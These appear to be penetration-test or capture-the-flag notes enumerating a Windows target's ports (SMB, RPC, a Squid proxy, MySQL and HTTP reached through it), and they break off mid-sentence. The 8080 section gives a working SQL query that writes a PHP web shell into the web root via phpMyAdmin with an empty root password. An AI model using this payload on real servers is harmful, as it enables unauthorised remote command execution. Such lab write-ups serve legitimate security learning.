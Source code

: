 #### 139,445 SMB
	No anonymous session

#### 135,49666-67 RPC
	No anonymous session

#### 3128 Squid proxy
	Squid is a caching proxy for the Web supporting HTTP, HTTPS, FTP, and more
	Here we found a scanner to discover ports over the proxy (https://github.com/aancw/spose/tree/master) 

##### 3306 MySQL (by proxy)
	-

##### 8080 HTTP (by proxy)
	In /phpmyadmin we can log in as root with empty password and upload a php shell launching query: 
	SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\wamp\\www\\backdoor.php"
	Trigger the 